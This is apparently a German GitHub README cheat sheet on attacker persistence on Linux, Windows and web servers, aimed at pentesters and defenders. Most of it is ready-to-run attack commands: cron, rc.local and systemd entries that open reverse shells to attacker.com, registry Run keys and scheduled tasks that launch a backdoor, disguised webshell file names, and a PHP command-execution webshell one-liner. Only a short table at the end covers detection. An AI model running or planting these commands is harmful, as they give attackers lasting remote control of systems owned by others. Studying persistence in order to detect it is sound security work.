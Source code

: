 # 🛡️ Persistence Techniques in Linux, Windows & Web Environments

**Zweck dieser Datei:**  
Diese Datei dient dazu, typische Persistenzmechanismen von Angreifern auf Linux- und Windows-Systemen zu verstehen. Solche Techniken sichern nach einem erfolgreichen Angriff einen dauerhaften Zugriff – selbst nach einem Neustart oder Reboot.  
Ziel: Sicherheitsverantwortliche, Forensiker und Pentester sollen diese Methoden erkennen, simulieren und verteidigen können.

> ⚠️ **Disclaimer:** Dieses Dokument ist ausschließlich zu Schulungs- und Awareness-Zwecken gedacht. Alle beschriebenen Techniken dürfen nur in autorisierten Testumgebungen (z. B. in CTFs, Homelabs oder im Rahmen eines Red-Team-Assessments) eingesetzt werden.

---

## 🐧 Linux Persistence Techniques

### 🔁 1. Cronjob-Based Persistence

Angreifer können sich wiederholend Shells oder Skripte ausführen lassen:

```bash
(crontab -l ; echo "* * * * * /bin/bash -i >& /dev/tcp/attacker.com/4444 0>&1") | crontab -
```
➡️ Erstellt eine Reverse Shell jede Minute.

### 🔌 2. /etc/rc.local
Diese Datei wird beim Booten des Systems ausgeführt:

```bash
echo "bash -i >& /dev/tcp/attacker.com/4444 0>&1" >> /etc/rc.local
chmod +x /etc/rc.local
```
➡️ Persistente Reverse Shell nach Neustart.

### 🧠 3. Systemd Services
Erstellen eines eigenen Services:

```bash
cat <<EOF > /etc/systemd/system/sys-persist.service
[Unit]
Description=Custom Backdoor

[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'

[Install]
WantedBy=multi-user.target
EOF

systemctl enable sys-persist
```
➡️ Angreifer tarnen ihre Services als legitime Dienste.

---

## 🪟 Windows Persistence Techniques

### 🪟 1. Registry Autoruns (HKCU / HKLM)

```powershell
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "C:\Users\user\backdoor.exe"
```
➡️ Führt eine Payload beim Benutzer-Login aus.

### 🕒 2. Scheduled Tasks

```powershell
schtasks /create /tn "WinUpdate" /tr "C:\backdoor.exe" /sc minute /mo 5
```
➡️ Führt alle 5 Minuten den Payload aus.

### 🦠 3. DLL Hijacking oder Startup Folder
- Drop von `.exe` oder `.lnk-Dateien` in %`APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`
- DLL-Ersetzung bei anfälligen Programmen (z. B. calc.exe lädt unsichere DLLs)

---

## 🌐 Webshell Persistence

### 🕸️ 1. Versteckte Dateinamen

Angreifer tarnen Webshells, z. B.:

- .htaccess.php
- index.php.jpg
- cmd.php%00.jpg

➡️ Auf den ersten Blick nicht als PHP-Skript erkennbar.

### 🗂️ 2. Tief verschachtelte Ordner

Webshells werden in tiefen Unterordnern abgelegt:

```swift
/var/www/html/wp-content/themes/twentyfifteen/assets/.cache/tmp/cmd.php
```
➡️ Administratoren übersehen solche Pfade oft.

### 🐚 3. In legitime Dateien injiziert

Code-Injektion in bereits vorhandene Dateien:

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```
➡️ Schlecht gewartete Webserver erkennen solche Injektionen nicht.

--- 

## 🧩 Tipps zur Erkennung & Abwehr

| Technik           | Abwehrmöglichkeit                          |
| ----------------- | ------------------------------------------ |
| Cronjobs          | `crontab -l`, `/etc/crontab`, Auditd       |
| rc.local          | `diff /etc/rc.local` gegen Backup prüfen   |
| Registry Autoruns | Autoruns.exe (Sysinternals)                |
| Scheduled Tasks   | `schtasks /query`                          |
| Webshells         | Dateiüberwachung, Signaturen, Virenscanner |
| Systemd Services  | `systemctl list-units --type=service`      |

--- 

🔐 **Merke:** Jede Persistenztechnik kann ein Einfallstor für Angreifer oder Malware sein. Frühzeitige Erkennung durch Logging, Monitoring und File Integrity Checks ist entscheidend.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay methodical. Stay legal. Stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---